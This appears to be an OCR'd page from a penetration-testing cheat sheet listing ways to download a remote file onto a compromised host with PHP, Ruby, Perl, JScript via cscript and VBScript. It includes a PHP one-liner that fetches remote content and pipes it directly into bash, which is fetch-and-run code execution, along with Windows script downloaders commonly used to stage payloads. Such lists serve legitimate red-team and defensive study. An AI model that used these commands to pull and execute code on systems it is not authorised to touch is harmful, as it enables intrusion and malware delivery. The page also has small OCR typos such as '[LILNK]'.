 File_get_contents()

```bash
php -r '$file = file_get_contents("[LINK]");file_put_contents("[FILE]",$file);'
```

Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("[LINK]", "rb"); $flocal = fopen("[FILE]", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

Pipe to Bash

```bash
php -r '$lines = @file("[LINK]"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

##### Ruby                                                                                                                    

```bash
ruby -e 'require "net/http"; File.write("[FILE]", Net::HTTP.get(URI.parse("[LINK]")))'
```

##### Perl                                                                                                                         

```bash
perl -e 'use LWP::Simple; getstore("[LINK]", "FILE");'
```

##### Javascript

1. create a file called `wget.js` and save the following content:

   ```javascript
   var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
   WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
   WinHttpReq.Send();
   BinStream = new ActiveXObject("ADODB.Stream");
   BinStream.Type = 1;
   BinStream.Open();
   BinStream.Write(WinHttpReq.ResponseBody);
   BinStream.SaveToFile(WScript.Arguments(1));
   ```

2. Execute from Windows:

   ```cmd
   cscript.exe /nologo wget.js [LILNK] [FILE]
   ```

##### VBScript

1. create a file called `wget.vbs` and save the following content:

   ```vbscript
   dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
   dim bStrm: Set bStrm = createobject("Adodb.Stream")
   xHttp.Open "GET", WScript.Arguments.Item(0), False
   xHttp.Send
   
   with bStrm
       .type = 1
       .open
       .write xHttp.responseBody
       .savetofile WScript.Arguments.Item(1), 2
   end with
   ```
